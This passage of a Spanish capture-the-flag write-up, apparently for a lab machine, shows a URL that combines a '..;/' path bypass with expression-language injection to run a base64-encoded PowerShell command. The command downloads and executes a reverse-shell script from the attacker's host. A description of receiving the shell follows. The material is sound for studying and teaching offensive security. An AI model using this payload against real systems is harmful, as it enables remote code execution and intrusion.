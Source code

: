 **4 Enviamos el comando a ejecutar*** 

```url 
http://10.10.11.115/maintenance/..;/login.jsp/login.jsp/pwn$%7B''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('powershell%20-enc%20SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADQALwBQAHMAMQAuAHAAcwAxACcAKQAKAA==')%7D.xhtml
```

Para ser mas específicos este seria el comando que necesitamos enviar en la sección del .exec 

```
'powershell -enc 0SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADQALwBQAHMAMQAuAHAAcwAxACcAKQAKAA=='
```

Si todo va bien y la codificación del base64 se realizo bien, obtendremos nuestra revershell:

***Capturas del proceso*** :

![paste](./images/24.jpeg)

El servidor de Python tuvo una petición para descargar el archivo Ps1.ps1

![paste](./images/25.jpeg)

Y en el puerto donde estemos en esucha para recibir la Powershell la obtendremos y listo dentro del servidor estamos:

![paste](./images/26.jpeg)
